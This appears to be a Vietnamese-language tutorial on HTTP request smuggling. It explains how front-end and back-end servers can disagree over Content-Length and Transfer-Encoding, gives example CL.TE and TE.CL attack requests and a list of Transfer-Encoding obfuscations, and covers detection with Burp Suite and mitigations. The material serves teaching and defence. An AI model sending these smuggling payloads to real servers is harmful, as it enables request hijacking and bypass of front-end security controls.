



# HTTP request smuggling

## HTTP request smuggling là gì?

HTTP Request Smuggling là một kỹ thuật khai thác sự bất đồng bộ xử lý gói tin HTTP giữa máy chủ proxy/balancer/… với máy chủ web/backend. Lỗ hổng này thường gây ra các ảnh hưởng rất nghiệp trọng tới logic web thông thường. OK chúng ta sẽ cùng tìm hiểu.



**Chuyện gì xảy ra khi một cuộc tấn công HTTP request smuggling diễn ra?**

Các ứng dụng web ngày nay thường sử dụng chuỗi máy chủ HTTP giữa người dùng và **backend**. Người dùng gửi yêu cầu đến máy chủ **front-end** (thường là các máy chủ cân bằng tải hoặc là reverse proxy), sau đó mới gửi tới máy chủ **backend**.

Hầu hết các lỗ hổng HTP Request Smuggling bị phát sinh do xoay quanh hai yếu tố trong header của gói tin HTTP đó là: **Content-Length** và **Transfer-Encoding**

**Content-Length** thì dễ hiểu rồi, nó là kích thước của body theo đơn vị byte.

Trường **Transfer-Encoding** thì chỉ ra kiểu truyền tải nào được áp dụng tới phần thân thông báo để cho việc truyền tải một cách an toàn giữa người gửi và người nhận. Ta sẽ nói đến kiểu **chunked**.

```
Transfer-Encoding: chunked
```

Khi dữ liệu body được chunked, nó sẽ có dạng như sau: ký tự b đầu tiên chính là kích thước của đoạn chunked theo dạng hex, tiếp đến nội dung chunked, và kết thúc nội dung là số 0.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## Cách thực hiện tấn công HTTP request smuggling

Tấn công HTTP Request Smuggling nói chung đều xoay quanh đến hai header là **Content-Length** và **Transfer-Encoding** trên cùng một gói tin HTTP để máy chủ front-end và back-end xử lý yêu cầu theo cách khác nhau. Sau đây là một số “combo” thường gặp của HTTP Request Smuggling:

- **CL.TE**: máy chủ front-end sử dụng header Content-Length và máy chủ back-end sử dụng header Transfer-Encoding.
- **TE.CL**: máy chủ front-end sử dụng header Transfer-Encoding và máy chủ back-end sử dụng header Content-Length.
- **TE.TE**: máy chủ front-end và back-end đều hỗ trợ header Transfer-Encoding, nhưng một trong hai loại máy chủ không xử ý được header này, do gói tin HTTP đã bị làm xáo trộn header theo một cách nào đó.

**Tấn công CL.TE:**

Ở đây, máy chủ front-end sử dụng header Content-Length và máy chủ back-end sử dụng header Transfer-Encoding. Ta tiến hành tấn công HTTP Request Smuggling như sau:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked
 
0
 
SMUGGLED
```

**Tấn công TE.CL:**

Ở đây, máy chủ front-end sử dụng header Transfer-Encoding và máy chủ back-end sử dụng header Content-Length. Ta tiến hành tấn công HTTP Request Smuggling như sau:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

**Tấn công TE.TE:**

Ở đây, máy chủ front-end và back-end đều xử lý header Transfer-Encoding, nhưng một trong các máy chủ không xử lý được do header đã bị xáo trộn theo một cách nào đó.

Có vô số cách để làm xáo trộn header Transfer-Encoding. Ví dụ:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Cách phát hiện và khai thác HTTP Request Smuggling

Nếu sử dụng BurpSuite Pro, ta có thể check lỗi HTTP Request Smuggling khi dùng với Active Scan, tải extension HTTP Request Smuggler:



Khi thực hiện thực hiện tương tác với website, extension HTTP Request Smuggler sẽ chủ động check lỗi cho từng request để tìm ra lỗ hổng này.



## Cách phòng chống HTTP request smuggling

- Cần kiểm tra xem lỗ hổng HTTP Request Smuggling có CVE hay tồn tại trong sản phẩm được sử dụng hay không? Liệu có sẵn bản cập nhật / bản vá cho nó hay không.

- Giao diện người dùng phải chuẩn hóa các yêu cầu có chứa cả hai tiêu đề Content-Length và Transfer-Encoding, để chỉ một trong những tiêu đề này được sử dụng. Do đó, nếu back-end nhận được một yêu cầu có chứa cả hai tiêu đề bị phân khúc là Content-Length và Transfer-Encoding, thì thôi, hủy và đóng luôn kết nối TCP của gói tin yêu cầu đó luôn.

- Nếu HTTP Request Smuggling xảy ra do kỹ thuật “hạ cấp” giao thức `HTTP / 2` xuống version 1, thì cần đảm bảo sử dụng `HTTP / 2` trong suốt thời gian, ngăn chặn việc “hạ cấp” xuống 1. Vấn đề này xem thêm về HTTP/2 REQUEST SMUGGLING: (https://www.scip.ch/en/?labs.20220707)